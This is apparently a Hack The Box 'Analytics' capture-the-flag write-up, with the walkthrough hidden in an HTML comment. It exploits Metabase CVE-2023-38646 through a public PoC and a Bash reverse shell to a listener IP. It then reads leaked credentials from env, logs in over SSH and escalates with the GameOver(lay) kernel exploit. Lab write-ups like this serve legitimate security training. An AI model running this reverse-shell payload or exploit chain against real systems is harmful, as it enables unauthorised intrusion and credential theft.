 ```yaml
---
title: HTB - Analytics
date: 2023-12-29
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, analytics, cve-2023-38646, cve-2023-32629]
img_path: /assets/analytics/
published: true
---
```


![room_banner](room_banner.png)

## Overview

|:-:|:-:|
|Machine|[Analytics](https://app.hackthebox.com/machines/569)|
|Rank|Easy|
|Time|-|
|Focus|CVEs|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Information gathering

```shell
# port-scanning
$ sudo nmap analytics -T4 --min-rate 10000 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
```

## Initial foothold

According to Nmap's output, the HTTP server redirects us to `http://analytical.htb/`, so we have to add it to our `/etc/hosts` file:

  ![](etc_hosts.png){: .normal }

  ![](home.png)

When clicking on `Login` we are redirected to `data.analytical.htb`:

  ![](analytical_login.png)

Let's us add this to `/etc/hosts` as well:

  ![](etc_hosts_1.png){: .normal }

  ![](home_data.png){: .normal width="70%"}

Viewing the page source, we can find Metabase's version:

  ![](metabase_version.png)

Searching Google for a public exploit we find the [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646). This requires the value of the `setup token` which can be found in the `/api/session/properties` directory:

  ![](setup-token.png){: .normal }

All we have to do now, is to open a listener and run the PoC with a Bash reverse shell payload:

  ```shell
  # setting up a listener
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  ```

  ```shell
  # executing the PoC
  $ python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
  ```

  ```shell
  # catching the reverse shell
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.11.233] 43200
  bash: cannot set terminal process group (1): Not a tty
  bash: no job control in this shell
  59a5ee253db5:/$
  ```

## Privilege escalation

After exploring the environment, we can find some credentials listed on the `env` variable:

  ```shell
  59a5ee253db5:/$ env
  env
  SHELL=/bin/sh
  MB_DB_PASS=
  HOSTNAME=59a5ee253db5
  LANGUAGE=en_US:en
  MB_JETTY_HOST=0.0.0.0
  JAVA_HOME=/opt/java/openjdk
  MB_DB_FILE=//metabase.db/metabase.db
  PWD=/
  LOGNAME=metabase
  MB_EMAIL_SMTP_USERNAME=
  HOME=/home/metabase
  LANG=en_US.UTF-8
  META_USER=metalytics # Username
  META_PASS=An4lytics_ds20223# # Password
  MB_EMAIL_SMTP_PASSWORD=
  USER=metabase
  SHLVL=4
  MB_DB_USER=
  FC_LANG=en-US
  LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
  LC_CTYPE=en_US.UTF-8
  MB_LDAP_BIND_DN=
  LC_ALL=en_US.UTF-8
  MB_LDAP_PASSWORD=
  PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  MB_DB_CONNECTION_URI=
  JAVA_VERSION=jdk-11.0.19+7
  _=/usr/bin/env
  OLDPWD=/var
  ```

We can use them to log in to the SSH server and right away find the `user.txt`:

  ```shell
  $ ssh metalytics@analytics
  # pass: An4lytics_ds20223#
  metalytics@analytics:~$ ls -la
  total 36
  drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
  drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
  lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
  -rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
  -rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
  drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
  drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
  -rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
  -rw-r----- 1 root       metalytics   33 Dec 29 16:56 user.txt
  -rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc
  ```

There isn't anything of interest laying around, so we can check the kernel's version and look for a public exploit:
  
  ```shell
  metalytics@analytics:/$ uname -a
  Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
  ```

There is the [GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which we can copy and paste on our target from the `/tmp` directory:

  ```shell
  metalytics@analytics:/$ cd /tmp
  metalytics@analytics:/tmp$ nano exploit.sh
  metalytics@analytics:/tmp$ chmod +x exploit.sh
  metalytics@analytics:/tmp$ ./exploit.sh
  [+] You should be root now
  [+] Type 'exit' to finish and leave the house cleaned
  root@analytics:/tmp# id
  uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
  root@analytics:/tmp# ls /root/
  root.txt
  ``` -->

<figure>
    <img src="machine_pwned.png"
    alt="Machine pwned" >
</figure>
